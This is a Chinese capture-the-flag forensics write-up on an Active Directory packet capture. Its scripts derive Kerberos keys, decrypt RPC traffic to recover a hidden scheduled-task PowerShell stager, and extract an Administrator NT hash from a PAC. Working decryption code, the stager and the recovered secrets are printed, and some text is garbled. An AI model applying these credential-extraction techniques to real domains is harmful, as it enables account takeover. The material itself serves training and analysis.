18ab76ad7740cdf5ce48b4f285e5718247f0162e9b30d82cc49e745c3a803bf03e7440b08ec808
bd5c449d3b8b9e21bbcf0b6bd0dd4a62bc2000f259f9b1aab60995529a812c5fcfee44f1d03dc2c
```

a38389de7186df50759f1c8e1620

```
4905c01be2ee897c57b05cc93cb9167365f3f4f4
etype: eTYPE-AES256-CTS-HMAC-SHA1-96 (18)
cipher [鈥:
2cb8ce2ba6beae1f63dc0f00a5f3ed1f2151d4c755ebb941c47e916aabb3aff2947f4e3c7edec6e

494f932faa31a834505cb4bc7e38fc4d474d6d9d4491b8a4db4c1fc18557a50691eb8e1abedf9e2
```

277c42e97d5c353ce4fe826ff995
15 3235e88a2158ba35abbce19f4a43a54d34a1

可以直接看到：

```
salt: WIRE.COMKanna.Seto
```

因此可以结合已知口令 taylorswift<3 推出其长期 AES 密钥。

```python
from impacket.krb5 import crypto
password = 'taylorswift<3'
salt = 'WIRE.COMKanna.Seto'
key = crypto.string_to_key(18, password, salt, None)
print(key.contents.hex())
```

得到

```
1ebf62851842b93e4b095f8474a905a4fc4d315796202540019d86e6570b8ca8
```

该密钥先用于离线解开 AS-REP，再进一步解出 TGS-REP，并最终恢复 frame 876 中 AP-REP 携带的
RPC subkey。

使用python生成keytab

```python
import argparse
from pathlib import Path
from struct import pack
from time import time

from impacket.krb5.keytab import Keytab

def counted(data: bytes) -> bytes:
return pack("!H", len(data)) + data

def build_entry(
principal: str,
realm: str,
key_hex: str,
etype: int,

kvno: int,
timestamp: int,
name_type: int,
) -> bytes:
components = [component.encode("utf-8") for component in
principal.split("/")]
body = b""
body += pack("!H", len(components))
body += counted(realm.encode("utf-8"))
for component in components:
body += counted(component)
body += pack("!L", name_type)
body += pack("!L", timestamp)
body += pack("!B", kvno & 0xFF)

key_bytes = bytes.fromhex(key_hex)
body += pack("!H", etype)
body += counted(key_bytes)
body += pack("!L", kvno)

return pack("!l", len(body)) + body

def main() -> None:
parser = argparse.ArgumentParser(description="Build a minimal MIT keytab
from known key material.")
parser.add_argument("--realm", required=True)
parser.add_argument("--principal", action="append", required=True)
parser.add_argument("--key-hex", required=True)
parser.add_argument("--etype", type=int, default=18)
parser.add_argument("--kvno", type=int, default=2)
parser.add_argument("--timestamp", type=int, default=int(time()))
parser.add_argument("--name-type", type=int, default=1)
parser.add_argument("--out", required=True)
args = parser.parse_args()

blob = pack("!H", 0x0502)
for principal in args.principal:
blob += build_entry(
principal=principal,
realm=args.realm,
key_hex=args.key_hex,
etype=args.etype,
kvno=args.kvno,
timestamp=args.timestamp,
name_type=args.name_type,
)

out_path = Path(args.out)
out_path.write_bytes(blob)

keytab = Keytab.loadFile(str(out_path))
print("out", out_path)
print("entry_count", len(keytab.entries))
keytab.prettyPrint()

if __name__ == "__main__":
main()
```

使用

```
tshark -r .\suctf-ad.pcapng -o kerberos.decrypt:TRUE `
>> -o kerberos.file:.\kanna.keytab `
>> -Y "frame.number==876" `
>> -T fields `
>> -e kerberos.keyvalue `
>> -e kerberos.keytype
```

得到subkey

```
6c729591c51fd38f4c462d74566eeb4a40a4511a9c85bc81232e737a98d8d1f2 18
```

使用脚本拿到完整任务 XML并解出cert.zip

```python
import argparse
import base64
import hashlib
import re
import subprocess
from bisect import bisect_right
from dataclasses import dataclass
from pathlib import Path
from typing import Iterable
from xml.etree import ElementTree as ET

from Cryptodome.Cipher import AES

from Cryptodome.Util.Padding import unpad
from impacket.krb5 import crypto
from impacket.krb5.gssapi import GSSAPI_AES256

DEFAULT_TSHARK = r"C:\Program Files\Wireshark\tshark.exe"
TASK_XML_MARKER = "<?xml".encode("utf-16le")
TASK_XML_END_MARKER = "</Task>".encode("utf-16le")
TASK_XML_NS = {"ts": "http://schemas.microsoft.com/windows/2004/02/mit/task"}

@dataclass
class Fragment:
frame: int
first_frag: bool
last_frag: bool
encrypted_stub_data: bytes
krb5_blob: bytes
auth_pad_len: int
auth_type: int
auth_level: int
auth_ctx_id: int

@dataclass
class TcpSegment:
frame: int
seq: int
payload: bytes

def tshark_tsv(tshark: str, args: Iterable[str]) -> list[list[str]]:
cmd = [tshark, *args]
result = subprocess.run(cmd, check=True, capture_output=True, text=True,
encoding="utf-8")
rows = []
for line in result.stdout.splitlines():
if not line.strip():
continue
rows.append(line.split("\t"))
return rows

def normalize_hex(value: str) -> str:
return value.replace(":", "").replace(",", "").strip()

def hex_to_bytes(value: str) -> bytes:
cleaned = normalize_hex(value)
return bytes.fromhex(cleaned) if cleaned else b""

def first_non_empty(values: list[str]) -> str:
for value in values:

cleaned = value.strip()
if cleaned:
return cleaned
raise ValueError("expected a non-empty tshark field")

def get_ap_rep_subkey(tshark: str, pcap: Path, keytab: Path, frame: int) ->
crypto.Key:
rows = tshark_tsv(
tshark,
[
"-r",
str(pcap),
"-o",
"kerberos.decrypt:TRUE",
"-o",
f"kerberos.file:{keytab}",
"-Y",
f"frame.number=={frame}",
"-T",
"fields",
"-e",
"kerberos.keyvalue",
"-e",
"kerberos.keytype",
],
)
if not rows:
raise ValueError(f"frame {frame} not found when extracting AP-REP
subkey")

keyvalue = normalize_hex(first_non_empty(rows[0]))
if not keyvalue:
raise ValueError("failed to recover encAPRepPart_subkey via tshark")

keytype = 18
for value in rows[0][1:]:
value = value.strip()
if value:
keytype = int(value)
break

return crypto.Key(keytype, bytes.fromhex(keyvalue))

def get_register_fragments(
tshark: str,
pcap: Path,
stream: int,

call_id: int,
opnum: int,
) -> list[Fragment]:
stream_segments = get_stream_segments(tshark, pcap, stream)
if not stream_segments:
raise ValueError("no TCP payloads found for the target stream")

for endpoint_pair, segments in stream_segments.items():
stream_bytes, frame_marks = reassemble_tcp_segments(segments)
fragments = extract_register_fragments_from_stream(
stream_bytes,
frame_marks,
call_id,
opnum,
)
if fragments:
return fragments

directions = ", ".join(f"{src}->{dst}" for src, dst in stream_segments)
raise ValueError(
f"no register-task request fragments found in stream {stream}; checked
directions: {directions}"
)

def get_stream_segments(tshark: str, pcap: Path, stream: int) ->
dict[tuple[int, int], list[TcpSegment]]:
rows = tshark_tsv(
tshark,
[
"-r",
str(pcap),
"-Y",
f"tcp.stream=={stream} && tcp.len>0",
"-T",
"fields",
"-e",
"frame.number",
"-e",
"tcp.srcport",
"-e",
"tcp.dstport",
"-e",
"tcp.seq_raw",
"-e",
"tcp.payload",
],
)

grouped_segments: dict[tuple[int, int], list[TcpSegment]] = {}
for row in rows:
row += [""] * (5 - len(row))
frame = int(row[0])
src_port = int(row[1])
dst_port = int(row[2])
seq = int(row[3])
payload = hex_to_bytes(row[4])
if not payload:
continue
grouped_segments.setdefault((src_port, dst_port), []).append(
TcpSegment(frame=frame, seq=seq, payload=payload)
)

return grouped_segments

def reassemble_tcp_segments(segments: list[TcpSegment]) -> tuple[bytes,
list[tuple[int, int]]]:
if not segments:
raise ValueError("cannot reassemble an empty TCP direction")

segments = sorted(segments, key=lambda segment: (segment.seq,
segment.frame))
base_seq = segments[0].seq
assembled = bytearray()
frame_marks: list[tuple[int, int]] = []

for segment in segments:
start = segment.seq - base_seq
overlap = len(assembled) - start
if overlap < 0:
raise ValueError(f"missing TCP bytes before frame {segment.frame}")
if overlap >= len(segment.payload):
continue

new_start = start + overlap
assembled.extend(segment.payload[overlap:])
frame_marks.append((new_start, segment.frame))

return bytes(assembled), frame_marks

def get_frame_for_offset(offset: int, frame_marks: list[tuple[int, int]]) ->
int:
starts = [start for start, _ in frame_marks]
index = bisect_right(starts, offset) - 1
if index < 0:

raise ValueError(f"failed to resolve frame for stream offset {offset}")
return frame_marks[index][1]

def extract_register_fragments_from_stream(
stream_bytes: bytes,
frame_marks: list[tuple[int, int]],
call_id: int,
opnum: int,
) -> list[Fragment]:
fragments = []
offset = 0
while offset + 24 <= len(stream_bytes):
if stream_bytes[offset] != 5:
raise ValueError(f"unexpected DCE/RPC version byte at stream
offset {offset}")

frag_len = int.from_bytes(stream_bytes[offset + 8 : offset + 10],
"little")
if frag_len <= 0 or offset + frag_len > len(stream_bytes):
raise ValueError(f"truncated DCE/RPC PDU at stream offset
{offset}")

pdu = stream_bytes[offset : offset + frag_len]
offset += frag_len

pkt_type = pdu[2]
if pkt_type != 0:
continue

pdu_call_id = int.from_bytes(pdu[12:16], "little")
pdu_opnum = int.from_bytes(pdu[22:24], "little")
if pdu_call_id != call_id or pdu_opnum != opnum:
continue

auth_len = int.from_bytes(pdu[10:12], "little")
stub_len = frag_len - 24 - 8 - auth_len
if stub_len < 0:
raise ValueError(f"invalid stub length at stream offset {offset -
frag_len}")

stub_start = 24
stub_end = stub_start + stub_len
sec_start = stub_end
sec_end = sec_start + 8
sec_trailer = pdu[sec_start:sec_end]
auth_blob = pdu[sec_end : sec_end + auth_len]

fragments.append(
Fragment(
frame=get_frame_for_offset(offset - frag_len, frame_marks),
first_frag=bool(pdu[3] & 0x01),
last_frag=bool(pdu[3] & 0x02),
encrypted_stub_data=pdu[stub_start:stub_end],
krb5_blob=auth_blob,
auth_pad_len=sec_trailer[2],
auth_type=sec_trailer[0],
auth_level=sec_trailer[1],
auth_ctx_id=int.from_bytes(sec_trailer[4:8], "little"),
)
)

return fragments

def unwrap_initiator_fragment(fragment: Fragment, subkey: crypto.Key) -> bytes:
token = GSSAPI_AES256.WRAP(fragment.krb5_blob[:16])
rotated = fragment.krb5_blob[16:] + fragment.encrypted_stub_data
rotate_by = (token["RRC"] + token["EC"]) % len(rotated)
cipher_text = rotated[rotate_by:] + rotated[:rotate_by]

# Kerberos RPC requests on this stream are wrapped with INITIATOR_SEAL
(usage 24).
plain_text = crypto._AES256CTS.decrypt(subkey, 24, cipher_text)
data = plain_text[: -(token["EC"] + len(token))]
if fragment.auth_pad_len:
data = data[:-fragment.auth_pad_len]
return data

def reassemble_register_request(fragments: list[Fragment], subkey: crypto.Key)
-> bytes:
if not fragments:
raise ValueError("cannot reassemble an empty fragment list")
if not fragments[0].first_frag:
raise ValueError(f"first fragment is missing the FIRST_FRAG flag
(frame {fragments[0].frame})")
if not fragments[-1].last_frag:
raise ValueError(f"last fragment is missing the LAST_FRAG flag (frame
{fragments[-1].frame})")
return b"".join(unwrap_initiator_fragment(fragment, subkey) for fragment in
fragments)

def extract_task_xml(register_request: bytes) -> str:
start = register_request.find(TASK_XML_MARKER)
if start == -1:

raise ValueError("UTF-16 task XML marker not found in decrypted
register request")

end = register_request.find(TASK_XML_END_MARKER, start)
if end == -1:
raise ValueError("task XML end marker not found in decrypted register
request")

xml_blob = register_request[start : end + len(TASK_XML_END_MARKER)]

if len(xml_blob) % 2:
xml_blob = xml_blob[:-1]

return xml_blob.decode("utf-16le")

def parse_helper_key_from_script(arguments: str) -> tuple[str, str]:
encoded_match = re.search(r"-enc\s+([A-Za-z0-9+/=]+)", arguments)
if not encoded_match:
raise ValueError("failed to locate PowerShell -enc payload in task
arguments")

ps_script = base64.b64decode(encoded_match.group(1)).decode("utf-16le")
key_match = re.search(r'FromBase64String\("([^"]+)"\)', ps_script)
if not key_match:
raise ValueError("failed to locate embedded AES helper key in
PowerShell script")

return key_match.group(1), ps_script

def decrypt_description_to_zip(description_b64: str, helper_key_b64: str) ->
bytes:
helper_key = base64.b64decode(helper_key_b64)
blob = base64.b64decode(description_b64)
iv, ciphertext = blob[:16], blob[16:]

plaintext = AES.new(helper_key, AES.MODE_CBC, iv).decrypt(ciphertext)
decoded_b64 = unpad(plaintext, AES.block_size).decode("utf-8")
return base64.b64decode(decoded_b64)

def main() -> None:
parser = argparse.ArgumentParser()
parser.add_argument("--pcap", default="suctf-ad.pcapng")
parser.add_argument("--tshark", default=DEFAULT_TSHARK)
parser.add_argument("--keytab", default="kanna.keytab")
parser.add_argument("--stream", type=int, default=5)
parser.add_argument("--register-call-id", type=int, default=2)
parser.add_argument("--register-opnum", type=int, default=1)

parser.add_argument("--ap-rep-frame", type=int, default=876)
parser.add_argument("--xml-out", default="JlWveTli_register_task.xml")
parser.add_argument("--zip-out", default="cert.zip")
args = parser.parse_args()

pcap = Path(args.pcap)
keytab = Path(args.keytab)

subkey = get_ap_rep_subkey(args.tshark, pcap, keytab, args.ap_rep_frame)
fragments = get_register_fragments(
args.tshark,
pcap,
args.stream,
args.register_call_id,
args.register_opnum,
)

register_request = reassemble_register_request(fragments, subkey)
task_xml = extract_task_xml(register_request)

root = ET.fromstring(task_xml)
description = root.findtext(".//ts:Description", namespaces=TASK_XML_NS)
arguments = root.findtext(".//ts:Arguments", namespaces=TASK_XML_NS)
task_uri = root.findtext(".//ts:URI", namespaces=TASK_XML_NS)
if not description or not arguments:
raise ValueError("failed to parse Description/Arguments from recovered
task XML")

helper_key_b64, ps_script = parse_helper_key_from_script(arguments)
zip_bytes = decrypt_description_to_zip(description, helper_key_b64)

xml_out = Path(args.xml_out)
zip_out = Path(args.zip_out)
xml_out.write_text(task_xml, encoding="utf-8")
zip_out.write_bytes(zip_bytes)

print("ap_rep_subkey", subkey.contents.hex())
print("fragment_count", len(fragments))
print("helper_key_b64", helper_key_b64)
print("task_uri", task_uri or "")
print("xml_out", str(xml_out))
print("zip_out", str(zip_out))
print("zip_len", len(zip_bytes))
print("zip_sha256", hashlib.sha256(zip_bytes).hexdigest())
print("powershell_head", ps_script.splitlines()[0] if ps_script else "")

if __name__ == "__main__":

main()
```

得到

```text
<?xml version="1.0" encoding="UTF-16"?>
<Task version="1.3"
xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
<RegistrationInfo>
<Description>VDcNfSgVXze62 </RegistrationInfo>
<Triggers>
<CalendarTrigger>
<StartBoundary>2015-07-15T20:35:13.2757294</StartBoundary>
<Enabled>true</Enabled>
<ScheduleByDay>
<DaysInterval>1</DaysInterval>
</ScheduleByDay>
</CalendarTrigger>
</Triggers>
<Principals>
<Principal id="LocalSystem">
<UserId>S-1-5-18</UserId>
<RunLevel>HighestAvailable</RunLevel>
</Principal>
</Principals>
<Settings>
<MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy>
<DisallowStartIfOnBatteries>false</DisallowStartIfOnBatteries>
<StopIfGoingOnBatteries>false</StopIfGoingOnBatteries>
<AllowHardTerminate>true</AllowHardTerminate>
<RunOnlyIfNetworkAvailable>false</RunOnlyIfNetworkAvailable>
<IdleSettings>
<StopOnIdleEnd>true</StopOnIdleEnd>
<RestartOnIdle>false</RestartOnIdle>
</IdleSettings>
<AllowStartOnDemand>true</AllowStartOnDemand>
<Enabled>true</Enabled>
<Hidden>true</Hidden>
<RunOnlyIfIdle>false</RunOnlyIfIdle>
<WakeToRun>false</WakeToRun>
<ExecutionTimeLimit>PT1M</ExecutionTimeLimit>
<Priority>7</Priority>
</Settings>
<Actions Context="LocalSystem">

<Exec>
<Command>powershell.exe</Command>
<Arguments>-NonInteractive -enc JAB0AGEAcgBn </Exec>
</Actions>
</Task>
```

对 base64 解密得到和 cert.zip

```text
$target_path = "C:\cert.zip"
$taskPath = "\"
$encryptionKey = [System.Convert]::FromBase64String("PYake61OOYCKw0zg+oT/Qg==")
function ConvertTo-Base64($byteArray) {
[System.Convert]::ToBase64String($byteArray)
}

function ConvertFrom-Base64($base64String) {
[System.Convert]::FromBase64String($base64String)
}

function Encrypt-Data($key, $data) {
$aesManaged = New-Object System.Security.Cryptography.AesManaged
$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC
$aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
$aesManaged.Key = $key
$aesManaged.GenerateIV()
$encryptor = $aesManaged.CreateEncryptor()
$utf8Bytes = [System.Text.Encoding]::UTF8.GetBytes($data)
$encryptedData = $encryptor.TransformFinalBlock($utf8Bytes, 0,
$utf8Bytes.Length)
```



```text
$combinedData = $aesManaged.IV + $encryptedData
return ConvertTo-Base64 $combinedData
}

function Decrypt-Data($key, $encryptedData) {
$aesManaged = New-Object System.Security.Cryptography.AesManaged
$aesManaged.Mode = [System.Security.Cryptography.CipherMode]::CBC
$aesManaged.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
$combinedData = ConvertFrom-Base64 $encryptedData
$aesManaged.IV = $combinedData[0..15]
$aesManaged.Key = $key
$decryptor = $aesManaged.CreateDecryptor()
$encryptedDataBytes = $combinedData[16..$combinedData.Length]
$decryptedDataBytes = $decryptor.TransformFinalBlock($encryptedDataBytes,
0, $encryptedDataBytes.Length)
return [System.Text.Encoding]::UTF8.GetString($decryptedDataBytes)
}
$scheduler = New-Object -ComObject Schedule.Service
$scheduler.Connect()
try {
$result = ""
$folder = $scheduler.GetFolder($taskPath)
$task = $folder.GetTask("JlWveTli")
$definition = $task.Definition
if (Test-Path -Path $target_path) {
$result = "[-] File already exists."
}else{
try {
$description = $definition.RegistrationInfo.Description
$decryptedDescription = Decrypt-Data $encryptionKey $description
# base64 decode get raw data and save it to file
$decodeData = ConvertFrom-Base64 $decryptedDescription
# if target path not exists, create it
$dir = Split-Path $target_path
if (!(Test-Path -Path $dir)) {
New-Item -ItemType Directory -Path $dir
}
$decodeData | Set-Content -Path "C:\cert.zip" -Encoding Byte
$result = "[+] Success."
}
catch {
$result = $_.Exception.Message
}
}
$encryptedResult = Encrypt-Data $encryptionKey $result

$definition.RegistrationInfo.Description = $encryptedResult

$user = $task.Principal.UserId
$folder.RegisterTaskDefinition($task.Name, $definition, 6, $user, $null,
$task.Definition.Principal.LogonType)
}catch {
Write-Error "Failed.."
}
finally {
[System.Runtime.InteropServices.Marshal]::ReleaseComObject($scheduler) |
Out-Null
}
[Environment]::Exit(0)
```

其中cert.jpg和hint.txt未加密，cert.jpg通过steghide解密得到poem.txt

poem.txt的内容

```
濑水晚霞映海天，户外潮声入远烟。
环佩清姿临碧浪，奈何人间少此颜。
倾心落日添柔影，城畔微风动鬓边。
绝代芳华如画里，色映云霞胜月妍。
```

通过hint.txt的hint，取每句诗的首字，得到zip密码濑户环奈倾城绝色

```
潮声只听开口处
The sea listens where the lines begin
```

其中压缩包的内容

- administrator.pfx 口令为空



实际是后续 PKINIT AS-REP key • key

里存的是 Administrator@WIRE.COM 的 TGT• wiredc.ccache

No.3

```
tshark.exe -r .\suctf-ad.pcapng -Y "frame.number==779 || frame.number==783" -V
```

| Select-String -Pattern "msg-type|padata-type|PA-PK-AS-REQ|PKINIT|cname-

$$
string|sname-string"
$$

```
[Protocols in frame:
eth:ethertype:ip:tcp:kerberos:cms:pkinit:pkixalgs:x509sat:x509sat:x509sat:x509s
at:x509ce:x509ce:x509sat:x509ce:x509ce:x509ce:pkix1
implicit:x509ce:x509ce:x509ce:x509ce:x509sat:x509sat:x509sat:cms:cms]
msg-type: krb-as-req (10)
padata-type: pA-PAC-REQUEST (128)
PA-DATA pA-PK-AS-REQ
padata-type: pA-PK-AS-REQ (16)
cname-string: 1 item
sname-string: 2 items
[Protocols in frame:
eth:ethertype:ip:tcp:kerberos:cms:pkinit:x509sat:x509sat:x509sat:x509sat:x509sa
t:x509ce:x509ce:cms:cms:cms:x509ce:x509ce:x509ce:pk
ix1implicit:x509ce:x509ce:x509sat:x509sat:x509sat:cms:cms]
msg-type: krb-as-rep (11)
padata-type: pA-PK-AS-REP (17)
cname-string: 1 item
sname-string: 2 items
```

能看得出就是用 pfx 做 PKINIT

```
tshark -r .\suctf-ad.pcapng -Y "frame.number==793 || frame.number==795" -V |
Select-String -Pattern "msg-type|enc-tkt-in-skey|additional-tickets|sname-
string|etype"

msg-type: krb-tgs-req (12)
msg-type: krb-ap-req (14)
sname-string: 2 items
etype: eTYPE-AES256-CTS-HMAC-SHA1-96 (18)
etype: eTYPE-AES256-CTS-HMAC-SHA1-96 (18)
.... 1... = enc-tkt-in-skey: True
sname-string: 1 item
etype: 2 items

ENCTYPE: eTYPE-AES256-CTS-HMAC-SHA1-96 (18)
ENCTYPE: eTYPE-ARCFOUR-HMAC-MD5 (23)
additional-tickets: 1 item
sname-string: 2 items
etype: eTYPE-AES256-CTS-HMAC-SHA1-96 (18)
msg-type: krb-tgs-rep (13)
sname-string: 1 item
etype: eTYPE-AES256-CTS-HMAC-SHA1-96 (18)
etype: eTYPE-AES256-CTS-HMAC-SHA1-96 (18)
```

抓包里能看到 793 和 795 两个帧，793 是一个 TGS-REQ，里面带了 enc-tkt-in-skey: True ，
这就是典型的 getnthash.py 的行为——通过 U2U（User-to-User）请求，把 NT Hash 藏在返回票据
的 PAC 里带出来。

所以整个解密链路大概是这样的：

### 第一步：拿 TGT Session Key

wiredc.ccache 里存着一张 TGT，用 impacket 的 CCache 直接读就行：

```python
from impacket.krb5.ccache import CCache cc = CCache.loadFile("wiredc.ccache")
print(cc.credentials[0]["key"]["keyvalue"].hex()) *#
```

$$
e7d900a23fd982ccf1f4142a360291735e4af423e0e7255a53e6102afd27f352*
$$

这个 key 后面要用两次。

### 第二步：用 tshark 把 795 帧的 TCP payload 导出来

```
tshark -r suctf-ad.pcapng -Y "frame.number==795" -T fields -e tcp.payload
```

拿到的 hex 前 4 字节是 Kerberos Record Mark,砍掉之后就是标准的 DER 编码 TGS-REP。

### 第三步：解 TGS-REP 外层 enc-part

这一层用 TGT Session Key + key usage 8 来解。解开之后得到 EncTGSRepPart ，里面能看到这次
U2U 请求返回的 reply session key:

```
8a7b4f14f7ef683fd064d629a8c76c9a981c7767e5050598e35e06b021cbb52a
```

这一步主要是验证解密链路没问题，reply session key 本身后面用不到

### 第四步：解 Ticket 里的 enc-part,拿 PAC

因为 793 的请求里带了 enc-tkt-in-skey 和 additional-tickets (就是那张 krbtgt 的
TGT),所以 795 返回的服务票据不是用服务长期密钥加密的,而是用 TGT Session Key 加密的,key
usage = 2。

解开 EncTicketPart 之后，沿着 authorization-data → AD-IF-RELEVANT → AD-
WIN2K-PAC 一路找下去，就能拿到完整的 PAC(1072 bytes)

### 第五步：从 PAC 里找 PAC_CREDENTIAL_INFO 并解密

PAC 里有好几个 PAC_INFO_BUFFER ，我们要的是 ulType = 2 的那个，也就是
PAC_CREDENTIAL_INFO 。参考 impacket/describeTicket.py 里的处理方式,这个结构里
EncryptionType = 18 ,说明 SerializedData 还有一层加密。

注意这里不能再用 TGT Session Key 了，要换成 PKINIT 那一步产生的 AS-REP Key，也就是
cert.zip 里那个 key 文件存的 32 字节：

```
01ea8c39173e5e4afbb5a6580b118e4cc21b16d399b8e2322b9090e68acd080a
```

用这个 key + key usage 16 解密,得到 112 字节的序列化数据。

### 第六步：拆序列化数据，拿 NT Hash

解出来的 112 字节，开头是一个 TypeSerialization1 的 NDR 头，跳过之后是
PAC_CREDENTIAL_DATA ，里面包了一个 NTLM 类型的 SECPKG_SUPPLEMENTAL_CRED ，
按 NTLM_SUPPLEMENTAL_CREDENTIAL 结构解析就能直接读到 NT Hash:

```
NtPassword = bedcf78571904538b1919672e4521c4e
```

Administrator 的 NT Hash 就是 bedcf78571904538b1919672e4521c4e ，完整脚本如下

```python
import argparse
import subprocess
from pathlib import Path

from pyasn1.codec.der import decoder

from impacket.dcerpc.v5.rpcrt import TypeSerialization1

from impacket.krb5 import crypto
from impacket.krb5.asn1 import AD_IF_RELEVANT, EncTGSRepPart, EncTicketPart,
TGS_REP
from impacket.krb5.ccache import CCache
from impacket.krb5.constants import AuthorizationDataType
from impacket.krb5.pac import (
NTLM_SUPPLEMENTAL_CREDENTIAL,
PAC_CREDENTIAL_DATA,
PAC_CREDENTIAL_INFO,
PAC_INFO_BUFFER,
PACTYPE,
)

DEFAULT_TSHARK = r"C:\Program Files\Wireshark\tshark.exe"

def get_frame_tcp_payload(tshark: str, pcap: Path, frame: int) -> bytes:
result = subprocess.run(
[
tshark,
"-r",
str(pcap),
"-Y",
f"frame.number=={frame}",
"-T",
"fields",
"-e",
"tcp.payload",
],
check=True,
capture_output=True,
text=True,
encoding="utf-8",
)
return bytes.fromhex(result.stdout.strip())

def get_tgt_session_key(ccache_path: Path) -> bytes:
ccache = CCache.loadFile(str(ccache_path))
if not ccache.credentials:
raise ValueError("no credentials found in ccache")
return bytes(ccache.credentials[0]["key"]["keyvalue"])

def decrypt_tgs_rep_enc_part(rep, tgt_session_key: bytes) -> tuple[int,
object]:
key = crypto.Key(18, tgt_session_key)
cipher_text = bytes(rep["enc-part"]["cipher"])
for usage in (8, 9):
try:

plain = crypto._enctype_table[18].decrypt(key, usage, cipher_text)
return usage, decoder.decode(plain, asn1Spec=EncTGSRepPart())[0]
except Exception:
continue
raise ValueError("failed to decrypt TGS-REP enc-part with usage 8/9")

def decrypt_ticket_pac(rep, tgt_session_key: bytes) -> bytes:
key = crypto.Key(18, tgt_session_key)
plain_ticket = crypto._enctype_table[18].decrypt(
key,
2,
bytes(rep["ticket"]["enc-part"]["cipher"]),
)
enc_ticket = decoder.decode(plain_ticket, asn1Spec=EncTicketPart())[0]

ad_if_relevant = None
for ad in enc_ticket["authorization-data"]:
if int(ad["ad-type"]) == AuthorizationDataType.AD_IF_RELEVANT.value:
ad_if_relevant = decoder.decode(bytes(ad["ad-data"]),
asn1Spec=AD_IF_RELEVANT())[0]
break
if ad_if_relevant is None:
raise ValueError("AD-IF-RELEVANT not found in decrypted ticket")

for ad in ad_if_relevant:
if int(ad["ad-type"]) == 128:
return bytes(ad["ad-data"])

raise ValueError("PAC not found in decrypted ticket")

def extract_pac_credential_info_blob(pac_bytes: bytes) -> bytes:
pac = PACTYPE(pac_bytes)
for index in range(pac["cBuffers"]):
info = PAC_INFO_BUFFER(pac["Buffers"][index * 16 : (index + 1) * 16])
if info["ulType"] == 2:
start = info["Offset"]
end = start + info["cbBufferSize"]
return pac_bytes[start:end]
raise ValueError("PAC_CREDENTIAL_INFO not found")

def decrypt_pac_credentials(cred_info_blob: bytes, asrep_key: bytes) -> bytes:
cred_info = PAC_CREDENTIAL_INFO(cred_info_blob)
enc_type = int(cred_info["EncryptionType"])
key = crypto.Key(enc_type, asrep_key)
return crypto._enctype_table[enc_type].decrypt(key, 16,
cred_info["SerializedData"])

def extract_nt_hash(serialized_credentials: bytes) -> tuple[str, int, int]:
type_header = TypeSerialization1(serialized_credentials)
# A 4-byte referent follows the NDR type serialization header.
credential_data =
PAC_CREDENTIAL_DATA(serialized_credentials[len(type_header) + 4 :])

for cred in credential_data["Credentials"]:
package_name = str(cred["PackageName"])
cred_bytes = b"".join(cred["Credentials"])
if package_name.upper() != "NTLM":
continue
ntlm = NTLM_SUPPLEMENTAL_CREDENTIAL(cred_bytes)
return ntlm["NtPassword"].hex(), int(ntlm["Version"]),
int(ntlm["Flags"])

raise ValueError("NTLM supplemental credential not found")

def main() -> None:
parser = argparse.ArgumentParser()
parser.add_argument("--pcap", default="suctf-ad.pcapng")
parser.add_argument("--tshark", default=DEFAULT_TSHARK)
parser.add_argument("--frame", type=int, default=795)
parser.add_argument("--ccache", default="wiredc.ccache")
parser.add_argument("--asrep-key-file", default="key")
args = parser.parse_args()

pcap = Path(args.pcap)
payload = get_frame_tcp_payload(args.tshark, pcap, args.frame)
rep = decoder.decode(payload[4:], asn1Spec=TGS_REP())[0]

tgt_session_key = get_tgt_session_key(Path(args.ccache))
outer_usage, enc_tgs_rep_part = decrypt_tgs_rep_enc_part(rep,
tgt_session_key)
pac_bytes = decrypt_ticket_pac(rep, tgt_session_key)
cred_info_blob = extract_pac_credential_info_blob(pac_bytes)

asrep_key = bytes.fromhex(Path(args.asrep_key_file).read_text().strip())
serialized_credentials = decrypt_pac_credentials(cred_info_blob, asrep_key)
nt_hash, ntlm_version, ntlm_flags = extract_nt_hash(serialized_credentials)

print("frame", args.frame)
print("outer_enc_part_usage", outer_usage)
print("tgt_session_key", tgt_session_key.hex())
print("u2u_reply_session_key", bytes(enc_tgs_rep_part["key"]
["keyvalue"]).hex())
print("asrep_key", asrep_key.hex())
print("pac_len", len(pac_bytes))

print("serialized_credentials_len", len(serialized_credentials))
print("ntlm_version", ntlm_version)
print("ntlm_flags", ntlm_flags)
print("administrator_nt_hash", nt_hash)

if __name__ == "__main__":
main()
```

得到

```
frame 795
outer_enc_part_usage 8
tgt_session_key
```

e7d900a23fd982ccf1f4142a360291735e4af423e0e7255a53e6102afd27f352
4 u2u_reply_session_key
8a7b4f14f7ef683fd064d629a8c76c9a981c7767e5050598e35e06b021cbb52a

```
asrep_key 01ea8c39173e5e4afbb5a6580b118e4cc21b16d399b8e2322b9090e68acd080a
pac_len 1072
serialized_credentials_len 112
ntlm_version 0
ntlm_flags 2
administrator_nt_hash bedcf78571904538b1919672e4521c4e
```

解密得到管理员密码

使用脚本对第三个xml进行提取



```python
import argparse
import base64
import hashlib
import re
import subprocess
from bisect import bisect_right
from dataclasses import dataclass
from pathlib import Path
from typing import Iterable
from xml.etree import ElementTree as ET

from impacket.krb5 import crypto
from impacket.krb5.gssapi import GSSAPI_AES256

DEFAULT_TSHARK = r"C:\Program Files\Wireshark\tshark.exe"
TASK_XML_MARKER = "<?xml".encode("utf-16le")
TASK_XML_END_MARKER = "</Task>".encode("utf-16le")
TASK_XML_NS = {"ts": "http://schemas.microsoft.com/windows/2004/02/mit/task"}

@dataclass
class Fragment:
frame: int
first_frag: bool
last_frag: bool
encrypted_stub_data: bytes
krb5_blob: bytes
auth_pad_len: int
auth_type: int
auth_level: int
auth_ctx_id: int

@dataclass
class TcpSegment:
frame: int
seq: int
payload: bytes

def tshark_tsv(tshark: str, args: Iterable[str]) -> list[list[str]]:
result = subprocess.run(
[tshark, *args],
check=True,
capture_output=True,
text=True,
encoding="utf-8",
)
rows = []
for line in result.stdout.splitlines():

if not line.strip():
continue
rows.append(line.split("\t"))
return rows

def normalize_hex(value: str) -> str:
return value.replace(":", "").replace(",", "").strip()

def hex_to_bytes(value: str) -> bytes:
cleaned = normalize_hex(value)
return bytes.fromhex(cleaned) if cleaned else b""

def first_non_empty(values: list[str]) -> str:
for value in values:
cleaned = value.strip()
if cleaned:
return cleaned
raise ValueError("expected a non-empty tshark field")

